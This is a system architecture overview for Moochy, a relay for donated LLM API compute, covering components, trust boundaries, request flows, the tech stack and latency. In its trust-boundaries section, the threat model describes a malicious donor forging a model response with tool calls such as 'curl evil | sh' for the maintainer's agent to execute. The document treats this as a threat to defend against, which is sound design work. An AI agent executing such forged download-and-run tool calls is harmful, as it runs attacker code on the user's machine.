




# 02 — Architecture Overview

> Scope: the whole system on one page, then each part in depth. The other documents expand every box drawn here.
> Conventions: **MUST / SHOULD / MAY** are used in the RFC 2119 sense. Money is always **µ$** (integer micro-US-dollars, see [05](05-ledger-and-accounting.md)).

---

## 1. The system in one paragraph

Moochy is **100% open source** (relay and client, Apache-2.0 OR MIT) and **100% free**. There are no fees, no commission on compute, and no paid tier. Donors pay their own provider directly. Moochy never holds anyone's money; the project's own small hosting bill is sponsor-funded, with public accounts.

A **Donor** runs the `moochy` binary on any always-on machine. It keeps their LLM provider API key (Anthropic, OpenAI, OpenRouter, DeepSeek, or any OpenAI-compatible provider) in the OS keychain and holds **one outbound WebSocket** to the **Relay**. A **Maintainer** runs the same binary. It opens **two universal entry points** on `127.0.0.1`. One is a **provider-compatible API** (Anthropic Messages, OpenAI Chat Completions) for any tool or SDK that accepts a base URL. The other is an **MCP server** (stdio and Streamable HTTP) for any MCP client or AI agent: Claude Code, OpenCode, Cursor, Cline, Zed, Goose, agent frameworks, or custom agents. Existing tools work without changes. The Gateway compresses the request, **seals it end-to-end** to a small set of candidate donor devices, and sends it to the Relay. The Relay is an open-source Go monolith that anyone can self-host, and it **cannot read the content**. Open source alone would not be enough: users cannot verify which binary an operator actually runs, so confidentiality is enforced by cryptography in the client, not by trust in the Relay. Its scheduler picks the best donor from in-memory state in microseconds, then forwards the sealed bytes. The donor's **Worker** opens the request, runs it through a strict **request firewall**, calls the provider over a warm HTTP/2 connection, and streams the encrypted output back. When the stream ends, the Worker signs a **usage receipt** (and signs every tool call as it streams). The Maintainer's Gateway checks the receipt against the bytes it actually sent and received, and disputes it with a signature if anything differs. The Relay settles the donor's budget and publishes a donor-signed, privacy-preserving **projection** of the receipt. Identities, owner-signed approvals, and prices live in a public **key log** that every Node mirrors and verifies.

---

## 2. System context



### 2.1 Actors

| Actor | What they want | What they run |
|---|---|---|
| **Donor** | Give part of their API budget to projects they care about, with a hard cap, without handing over their key | `moochy` Node with the Worker role |
| **Maintainer** (repo owner or admin) | Run coding agents on donated compute with zero tooling changes | `moochy` Node with the Gateway role, plus the web console |
| **Member** (collaborator authorized by the owner) | Same as Maintainer, within a quota set by the owner | `moochy` Node with the Gateway role |
| **Visitor** | See which projects need compute, who is helping, and proof that it is real | Browser |
| **Operator** (Moochy) | Run a blind, cheap, reliable broker | `moochy-relay` binary |
| **Verifier** (anyone) | Keep the operator honest | `moochy verify`, any tlog client, or a mirror of the public Git anchor |

In the rest of the plan, "Maintainer" means any authorized consumer (owner, admin, or member). "Repo owner" is used where admin rights matter.

---

## 3. Components and responsibilities

### 3.1 Relay (`relay/` in the monorepo, open source, Go)

| Component | Responsibility | Owns state? | Hot path? |
|---|---|---|---|
| **Edge** | TLS termination (autocert), WebSocket upgrade, device auth handshake, frame parsing, per-connection reader and writer goroutines, data-plane forwarding of stream chunks | Connection table, forwarding table (`task_id → destination`) | Yes, every chunk |
| **Scheduler** | Single goroutine that owns all routing and budget state; matches tasks to workers; reservations; deadlines; failover | Workers, pledges, pools, affinity, in-flight tasks | Yes, once per task event |
| **Ledger** | Pure accounting rules (cost function, reservation math, settlement) plus persistence of the results | None in memory (the Scheduler holds live balances) | Per task end |
| **Key log** | Appends entries (device keys, owner-signed repo claims, donor approvals and memberships, catalog versions, moderation), computes tree hashes, signs checkpoints (only for replicated sizes), anchors them hourly in a public Git repository, serves tiles | Tree hashes (SQLite) | Batched |
| **Identity** | GitHub/GitLab OAuth for the web, device-approval flow for Nodes, repo-claim verification | Users, identities, devices, sessions | No |
| **Web** | HTMX pages, SSE hub (render once, fan out to all subscribers), badges, public verification pages | SSE subscriber sets | No |
| **Store** | One writer goroutine with group commit; a read-only connection pool; embedded forward-only migrations | SQLite file | Batched |
| **Catalog** | Versioned price and model catalog, signed and published to Nodes | Catalog rows | No |

### 3.2 Node (`cli/` in the monorepo, open source, Rust, one binary, one background process per machine)

| Component | Role | Responsibility |
|---|---|---|
| **Relay link** | both | The single WSS connection; auth; reconnect with jittered backoff; frame mux |
| **Keystore** | both | Device Ed25519 signing key, device X25519 encryption key, provider API keys; OS keychain with an encrypted-file fallback for headless hosts |
| **Gateway** | maintainer | Local HTTP server on loopback speaking the provider APIs; repo-scoped local tokens; session-affinity key; task signing; compression + sealing to owner-approved donors only; secret scrubbing; tool-call checks; dialect-native errors; receipt checks and signed disputes; optional fallback to the maintainer's own key |
| **MCP server** | maintainer | Two transports, same tools. **stdio** (`moochy mcp`, started by the client, forwards to the running Node over a local socket, so starting it costs nothing and many windows share one relay connection) and **Streamable HTTP** on loopback (`http://127.0.0.1:<port>/mcp`, for agent frameworks and remote-style MCP configs). Works with any MCP client ([07 §5](07-client-cli.md)) |
| **Worker** | donor | Slot grants; opening envelopes; **request firewall**; provider adapters with warm connection pools; usage extraction; cancellation; local hard caps; receipt signing; **outbox** |
| **Monitor** | both | Mirrors the key log; checks checkpoint consistency and the public Git anchor; flags unknown device keys on the user's own account, and (for owners) repo claims, approvals, or memberships the owner did not sign |
| **Local journal** | both | Append-only local record of every task served or consumed (metadata always, full text if opted in) for the user's own audit |

---

## 4. Trust boundaries



The key insights, each expanded in [06](06-security-and-trust.md):

1. **The Relay is blind by construction.** Everything is open source, but open source does not prove what a server actually runs. So every primitive that protects users (sealing, signing, firewalling, verifying) runs in the client on the user's own machine. The Relay, whether moochy.dev or a self-hosted one, only routes opaque bytes and enforces budgets on plaintext *metadata*. It is not trusted with anything it could abuse unnoticed.
2. **Donors are protected from Maintainers** by the Worker's firewall, local hard caps, and provider-side spend limits.
3. **Maintainers are exposed to Donors**, and this is the risk the draft spec missed. A malicious donor can return a forged model response containing tool calls (`run: curl evil | sh`) that the Maintainer's agent may execute. Mitigations: **owner-signed** donor approval per repo, structural tool-call checks and a tripwire in the Gateway, and **signed non-repudiation**. The Worker signs every tool call it streams and a commitment to the exact bytes it returned, so a malicious output becomes provable evidence. That gives the draft's signatures a real purpose: **accountability**, not "proof of compute".

---

## 5. Primary flow — one streamed request



The diagram shows the API door. A `moochy_delegate` call on the MCP door builds the same kind of request inside the Node and then follows exactly the same path, from signing and sealing onward.

Money settles on the **donor-signed** receipt, because the donor's provider was billed either way. The maintainer's Gateway stays silent when the receipt matches what it saw, and sends a signed dispute when it does not ([03 §12](03-wire-protocol.md)). The public audit feed shows the donor-signed **projection** of each receipt: daily granularity, no device ids.

Failure branches (no ACK, provider 429/529/5xx before the provider started, worker disconnect, cancellation) are specified in [03 §10](03-wire-protocol.md) and [04 §8](04-routing-engine.md).

---

## 6. Secondary flows (summaries)

| Flow | Steps | Specified in |
|---|---|---|
| **Device login** | `moochy login` → Node creates its keys → shows a short code and a URL → user approves in the browser (already signed in with GitHub) → Relay records the device and appends a `KEY_ADDED` log entry → Node receives its device id | [06 §4](06-security-and-trust.md), [07 §8](07-client-cli.md) |
| **Repo claim** | Owner signs in → selects a repo → Relay checks admin permission through the provider API using the user's OAuth token at claim time (token not stored) → owner's Node signs `REPO_CLAIMED` → logged | [06 §5](06-security-and-trust.md) |
| **Pledge** | Donor picks a repo → monthly budget (µ$), per-task cap, models, max effort, schedule → owner's Node signs `DONOR_APPROVED` → logged → Scheduler indexes it; Gateways can now seal to that donor | [05 §4](05-ledger-and-accounting.md) |
| **Reclaim / pause** | Donor clicks Reclaim (or runs `moochy pause`) → Scheduler stops new reservations at once → in-flight tasks finish and settle → unspent budget is released | [05 §8](05-ledger-and-accounting.md) |
| **Settlement recovery** | Relay crashes mid-task → Workers abort and receipt their tasks → on reconnect they send `known_tasks` and replay their outboxes → idempotent settlement by `(task_id, attempt)`; orphaned reservations the Worker never held are released | [05 §7](05-ledger-and-accounting.md) |
| **Log monitoring** | Every Node fetches the newest checkpoint → verifies consistency with the last one it saw and with the public Git anchor → mirrors the key log → alerts on unknown keys for its user, and owners on unsigned approvals | [06 §10](06-security-and-trust.md) |

---

## 7. Control plane and data plane

The draft treated "routing" as a single hot path. It is two different problems:

| | Control plane | Data plane |
|---|---|---|
| What | Matching, reserving, deadlines, failover, settlement | Moving chunks of sealed bytes |
| Frequency | ~5 events per task | Hundreds of chunks per task |
| Structure | **One goroutine owns all state** (actor). No locks, no races, deterministic, replayable in tests | **`sync.Map` forwarding table** `task_id → destination connection`: written once per task, read for every chunk. This read-mostly case is exactly what `sync.Map` is optimized for |
| Latency target | p99 < 50 µs per event at 10k online workers | One map lookup plus one channel send per chunk |

So the draft's "lock-free `sync.Map` registry" belongs in the data plane, not in the matcher.

---

## 8. Deployment topology



- **One process, one file, one sidecar.** TLS through ACME autocert inside the Go process. No reverse proxy, no Redis, no message queue.
- **Litestream** ships the WAL continuously to object storage. RPO is about 1 s. RPO for *spend* is effectively 0, because Worker outboxes replay receipts.
- **Deploys**: drain and restart (≤ 30 s drain, ~10 s of retryable errors, zero ledger drift). Blue/green zero-downtime is designed and built only when deploy-caused failures show up in metrics. See [10 §3](10-operations.md).
- Log tiles are immutable once full, which makes them ideal for a CDN.

---

## 9. Technology stack (final)

| Layer | Choice | Why | Dropped from draft |
|---|---|---|---|
| Relay language | Go (current stable) | Goroutines fit 10k+ long-lived sockets; static binaries; stdlib crypto | — |
| HTTP routing | `net/http` `ServeMux` (method + wildcard patterns, Go ≥ 1.22) | Covers `GET /p/{owner}/{repo}` natively | `chi` (not needed) |
| Node ↔ Relay transport | **gRPC** (`google.golang.org/grpc`, Rust `tonic` + `prost`), TLS 1.3, one stream per task (ADR-33) | Typed shared schema, per-stream flow control, cancellation, deadlines | Custom WebSocket framing |
| SQLite (Go) | `modernc.org/sqlite` (CGO-free) | Static builds, one binary | — |
| Key log | Merkle hashing and proofs from `golang.org/x/mod/sumdb/tlog`, signed notes from `golang.org/x/mod/sumdb/note`, C2SP tlog-tiles paths (own thin layer, or the transparency-dev Tessera library) | Battle-tested in the Go checksum database; standard formats; witnesses can be added later | Plain audit table |
| OAuth | `golang.org/x/oauth2` | Standard | — |
| Frontend | `html/template` + HTMX 2 + `htmx-ext-sse` + Tailwind (standalone CLI at build time) | No Node toolchain at runtime; pages under 50 KB | — |
| Backups | Litestream | Continuous, cheap, proven | — |
| Client language | Rust (stable) | Small static binaries, memory safety for crypto and parsing | — |
| Client async | `tokio` | — | — |
| Client WS / HTTP | `tokio-tungstenite` (rustls), `reqwest` (rustls, HTTP/2), `hyper` (local server) | No OpenSSL dependency | — |
| Client crypto | `ed25519-dalek`, `x25519-dalek`, `hpke` (RFC 9180), `chacha20poly1305`, `sha2` | Audited primitives, standard constructions | GPG / OpenPGP; homemade AES-GCM key wrapping |
| Client JSON | `serde_json` | Parsing a few KB costs microseconds; payloads are opaque to the Relay anyway | `simd-json` |
| Compression | `zstd` | 3–5× on code and JSON | — |
| MCP | `rmcp` (official Rust MCP SDK): stdio + Streamable HTTP transports | Any MCP client or agent framework can connect | Separate `moochy-mcp` binary |
| License | Apache-2.0 OR MIT for **everything** (relay, client, spec, docs) | 100% open source; maximally permissive | Closed-source core |
| Secrets at rest | `keyring` (macOS Keychain, Windows Credential Manager, Secret Service) + scrypt-encrypted file fallback | OS-grade protection; no passphrase prompt at every daemon start | AES-256-GCM passphrase store |
| Release | `cargo-dist` + Sigstore signing + SLSA provenance + reproducible builds | Donors can check that the binary matches the source | — |

---

## 10. Repository layout

Directory trees only. No code yet.

The draft split the project into a closed-source `moochy-core` and an open-source `moochy-cli`. Now that **everything is open source**, one **public monorepo** is simpler. A protocol change touches the Go relay, the Rust client, and the shared test vectors in **one reviewable commit**, and there is no vector-copying between repositories.

```
moochy/                          (public, Apache-2.0 OR MIT, free forever)
├── spec/
│   ├── protocol.md              normative wire spec (derived from 03)
│   └── vectors/                 golden cross-language test vectors (single source of truth)
├── relay/                       Go: the self-hostable relay + web app
│   ├── cmd/relay/               entrypoint, flags, wiring
│   ├── internal/
│   │   ├── edge/                WS + HTTP edge, handshake, frames, forwarding table
│   │   ├── sched/               scheduler actor, eligibility, selection, deadlines
│   │   ├── ledger/              cost function, reservation math, settlement rules
│   │   ├── tlog/                key log: append, tiles, checkpoints, Git anchor
│   │   ├── identity/            OAuth, device approval, repo claim, sessions
│   │   ├── web/                 handlers, templates, SSE hub, badges
│   │   ├── store/               writer goroutine, readers, migrations (embedded)
│   │   ├── catalog/             price/model catalog, signing
│   │   └── proto/               wire types (tested against spec/vectors)
│   └── tools/simulate/          deterministic scheduler simulator (dev only)
├── cli/                         Rust: the `moochy` binary (Node: gateway, MCP, worker)
│   ├── src/
│   │   ├── main.rs              CLI surface
│   │   ├── link/                relay connection, frames, reconnect
│   │   ├── crypto/              envelopes, receipts, signatures, tlog verification
│   │   ├── gateway/             local API server, dialects, task signing, scrubber, tool-call checks
│   │   ├── mcp/                 MCP server (stdio + Streamable HTTP)
│   │   ├── worker/              firewall, adapters, usage, caps, outbox
│   │   ├── keystore/            keychain + file fallback
│   │   └── monitor/             checkpoint + key-log follower
│   └── fuzz/                    firewall and frame fuzz targets
├── deploy/                      self-host guide, systemd units, container image recipe
└── docs/                        user guides (donor, maintainer, self-host), threat model
```

The client is **one crate with modules**. Split it only when compile times make it worth it. Shared protocol truth lives in **language-neutral test vectors** (`spec/vectors`), not in a shared library, because the two sides are written in different languages.

**Self-hosting is a first-class outcome of being open source.** A company, a foundation, or a community can run its own relay (one binary + one SQLite file, [10 §2](10-operations.md)) for a private donor pool. Nodes choose their relay with one config value. Federation between relays is not in scope.

---

## 11. Latency budget (honest version)

The draft optimized for "<1 ms dispatch" and "<2 ms serialization". Neither matters next to the real costs. Worked example: maintainer in Paris, Relay in Germany, donor in New York, provider in the US.

| Segment | Draft's focus | Realistic cost | Lever that actually helps |
|---|---|---|---|
| Gateway serialize + compress + seal (400 KB agent context) | <2 ms | ~1–2 ms | — (already negligible) |
| **Upload of the agent context** (400 KB raw → ~100 KB after zstd, at 10 Mbit/s) | ignored | **~80 ms** (320 ms uncompressed) | zstd before sealing (v1); prefix-delta transfer would bring it to ~10 ms and is designed but deferred ([03 §9](03-wire-protocol.md)) |
| Maintainer → Relay one-way | ignored | ~15 ms | Region choice |
| Scheduler match | <1 ms | ~5–50 µs | — |
| Relay → Worker one-way + body transfer | ignored | ~45 ms + transfer | Compression; RTT term in the routing score |
| Worker → provider (cold TLS) | ignored | ~100–150 ms | **Warm HTTP/2 pool** → ~5–30 ms |
| **Provider time-to-first-token** | ignored | **300 ms – several s** | Session affinity → prompt-cache hits (lower TTFT and up to ~90% cheaper input) |
| Token stream back (Worker → Relay → Gateway) | ignored | ~60 ms one-way | Streaming pass-through (no buffering) |

**What Moochy adds on top of calling the provider directly**: about 150–250 ms intercontinental and 50–120 ms in-continent, of which uploading the compressed context is the most variable part. Without compression and warm pools it would be 500 ms or more. Targets are in [01 §5](01-vision-scope-and-draft-review.md) and measured in [10 §5](10-operations.md).

---

## 12. Scalability envelope

| Dimension | Single-node design point | First bottleneck | Next step |
|---|---|---|---|
| Connected Nodes | 50k WebSockets | Memory (~20–40 KB per connection) | Bigger VM |
| Concurrent streamed tasks | 5k (agent turns stream ~20–60 s) | Egress bandwidth | Compression (v1); then delta transfer; then shard |
| Task starts per second | ≈ 200 sustained (5k concurrent ÷ ~25 s) | Scheduler actor at ~100k events/s (plenty of headroom) | Shard the Scheduler by repo |
| Ledger writes | ≈ 200 receipts/s | SQLite single writer, group commit, `synchronous=FULL` (≤ 100 fsyncs/s, ≫ 10k rows/s) | Shard by repo |
| SSE subscribers | 20k | Fan-out writes (render once, so cheap) | Separate web process |

**Scale-out path** (only when measured): routing and money are naturally **partitioned by repository**, because a task for repo X can only be served by pledges to repo X. Shard by `repo_id` with consistent hashing. Each shard runs its own Scheduler and SQLite file. Users, devices, and the key log are global, small, and replicated. Workers that pledge to repos on several shards keep one connection per shard; there are rarely more than a few. See [10 §9](10-operations.md).
